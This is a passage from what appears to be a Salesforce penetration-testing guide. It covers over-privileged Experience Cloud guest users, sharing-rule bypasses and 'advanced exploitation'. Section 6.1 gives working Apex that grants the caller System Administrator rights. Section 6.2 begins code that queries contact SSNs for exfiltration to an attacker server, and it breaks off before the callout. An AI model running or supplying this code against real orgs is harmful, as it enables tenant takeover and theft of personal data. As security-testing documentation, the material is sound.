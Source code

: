 ## 5. Phase 5: Experience Cloud (Community) & Guest User Exploitation

### 5.1 Over-Privileged Guest User
*   **Description:** The unauthenticated "Guest User" has excessive permissions, allowing public access to internal data. This is a top source of data breaches on the platform.
*   **Method:**
    *   **UI Navigation:** `Setup` > `Digital Experiences` > `All Sites`. For each a site, click `Workspaces` > `Administration` > `Pages` > `Go to Force.com` and click **Public Access Settings**.
    *   **Check Permissions:** In the Guest User's Profile, review "Object Settings". This profile should have **NO** access to standard objects like Account, Contact, or User by default. Any `Read` or `View` access is a potential high-risk finding.
*   **Impact:** Anonymous, unauthenticated data exfiltration of customer lists, user details, and sensitive business data.

### 5.2 Guest User Sharing Rule Bypass
*   **Description:** Even with a locked-down profile, guest users can see records if a misconfigured Sharing Rule grants access to records owned by the guest.
*   **Method:**
    *   **UI Navigation:** In `Setup` > `Security` > `Sharing Settings`, enable the setting **`Secure guest user record access`**. If this is disabled, it is a critical finding.
    *   **Test for IDORs:** As an unauthenticated guest user browsing the community, attempt to access internal record IDs.
*   **Impact:** Allows unauthenticated users to view specific records that have been unintentionally shared with the public.

## 6. Phase 6: Advanced Exploitation & Data Exfiltration

### 6.1 Full Org Takeover via `Author Apex`
*   **Description:** A user with the `Author Apex` permission can execute arbitrary code and grant themselves System Administrator rights.
*   **Method (`Execute Anonymous` in Developer Console):**
    ```apex
    // Find the System Administrator profile
    Profile p = [SELECT Id FROM Profile WHERE Name='System Administrator'];

    // Get the current user
    User u = [SELECT Id FROM User WHERE Id = :UserInfo.getUserId()];

    // Assign the System Administrator profile to self
    u.ProfileId = p.Id;
    update u;
    ```
*   **Impact:** Complete, persistent compromise of the Salesforce tenant.

### 6.2 Covert Data Exfiltration via Callouts
*   **Description:** Using Apex code to send sensitive data to an external, attacker-controlled server.
*   **Method (`Execute Anonymous` or in a Trigger):**
    ```apex
    // Query sensitive data
    List<Contact> sensitiveContacts = [SELECT Name, Email, SSN__c FROM Contact LIMIT 10];
